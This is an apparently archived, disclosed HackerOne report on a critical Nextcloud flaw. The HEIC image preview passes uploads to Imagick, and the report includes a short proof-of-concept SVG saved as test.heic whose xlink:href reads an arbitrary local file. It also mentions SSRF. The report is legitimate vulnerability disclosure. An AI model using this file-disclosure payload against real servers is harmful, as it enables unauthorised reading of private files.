 # HEIC image preview can be used to invoke Imagick

## Report Details
- **Report ID**: 1261413
- **URL**: https://hackerone.com/reports/1261413
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-07-14T13:21:35.249Z
- **Disclosed**: 2023-01-07T09:55:38.085Z

## Reporter
- **Username**: lukasreschkenc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The HEIC image preview provider calls into Imagick at https://github.com/nextcloud/server/blob/5d097ddb4b99673f57b8c085dedd93880ee2539d/lib/private/Preview/HEIC.php#L98-L109. This is bad as Imagick processes all kind of image types.

One can use this for example to exfiltrate arbitrary files by passing a SVG file that contains a `xlink:href` to a locally existing file. There are also other concerns with regard to SSRF and XML parsing done by Imagick.

A super naive example, uploading a file such as "test.heic" with this content will render the file "nextcloud20.png" inside it. (but you can also reference PDFs, or use it for SSRF, etc etc.

`test.heic`:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   style="overflow: hidden; position: relative;"
   width="500"
   height="500">
    <image x="0" y="0" width="500" height="500" xlink:href="/Users/lukasreschke/Downloads/nextcloud20.png" stroke-width="1" id="image3204" />
</svg>
```

Preview:

{F1376376}

## Impact

Gaining access to arbitrary files on the system, SSRF, etc.

## Attachments
- Screenshot_2021-07-14_at_15.21.03.png
